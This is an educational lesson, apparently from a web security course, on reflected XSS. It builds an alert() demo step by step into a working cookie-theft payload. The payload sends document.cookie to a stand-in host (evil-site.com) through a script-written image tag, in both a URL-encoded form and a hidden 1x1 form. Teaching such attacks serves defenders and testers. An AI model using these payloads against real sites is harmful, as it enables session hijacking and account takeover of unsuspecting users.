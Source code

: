 # Reflected XSS

We got introduced to **Reflected XSS** in the previous section, in short it is a type of vulnerability that gets reflected to you when triggered.

We discussed in previous example how we could send some URL string like,

`https://https://example-site.com/search?term=<script>alert("XSS")</script>`

and the user visiting the URL will be greeted with `XSS`.
Well, this isn't the thing that a malicious attacker would do, is it?

So, how can we convert the above code to something harmful?

>**Note:** The purpose of this lesson is to teach you how malicious actors think, and not how to become one.

Let's imagine you are logged in to that e-commerce site.
And say it uses cookie based authentication mechanism. Which means anyone who has your cookies can impersonate the server to think that the user is actually you.

Let us say we are *attacker* and the user who has no idea what we are going to do is *victim*.

As an attacker, our goal is to impersonate the server to think we are the *victim* user.But, we need ourself to authenticate using login credentials. Sad thing is, *we don't have it!*.

**Let's steal! ;)**

We need `document.cookie`, it is a variable that stores cookies of every site you visit, individually.

Now we know what we need to include in the code.

```html
  <script>alert(document.cookie)</script>
```

Voila! We see our cookies in the alert box. You might think this is it. But, when a victim visits our new url,

`https://fake-ecommerce-121255.com/search?term=<script>alert(document.cookie)</script>`

the victim sees the cookie and wonder's th!

But, we don't actually have it, do we? Now, to actually get the cookie we use a neat idea.

Let's say we have a evil website `https://evil-site.com`.

What we try to do is send a HTTP request to our evil site with cookies in the URL parameter and later retrieve it. But, how?

What if we sent it using a HTTP Request from an image!

Like,

```html
<img src="https://evil-site.com/cookie?cookie=victim-cookie-here">
```

Looks like a  good idea, but how are we gonna attach `document.cookie` in `src` attribute. 

That isn't possible as attributes doesn't support string concatenation like **JavaScript**.

Let's think it clearly, we can use `script` tag though!

So lets use `document.write` to output `img` tag instead of putting `img` directly,

```html
  <script>document.write("<img src='https://evil-site.com/cookie?cookie=" + document.cookie + " '>")</script>
```

Now, lets paste the above code in the URL query parameter.

It doesn't work! Wth! What happened? The payload didn't work because of how the browser URL works, you must **URL Encode** them before sending.

`%3Cscript%3Edocument.write%28%22%3Cimg%20src%3D%27https%3A%2F%2Fevil-site.com%2Fcookie%3Fcookie%3D%22%20%2B%20document.cookie%20%2B%20%22%20%27%3E%22%29%3C%2Fscript%3E`

This is the final payload, now this will send the `document.cookie` to the evil site that we provided.

But in real life, wouldn't it be better if we could hide that weird image thumbnail?

Let's set width and height for the image.

```html
  <script>document.write("<img width='1' height='1' src='https://evil-site.com/cookie?cookie=" + document.cookie + " '>")</script>
```

Voila! No image at all! You can now play around with various tags and attributes and explore further.

## Final Words

The example that we discussed above is simplest of all XSS Vulnerabilities, you don't get to encounter with this type of simple vulns anymore, but sometimes if you are lucky you might find it.

The most important lesson to take is that you must explore each and every input fields and look at it's output end. Then, walk-through finding XSS. It won't be that simple but, you need to understand that and **Try Harder!**
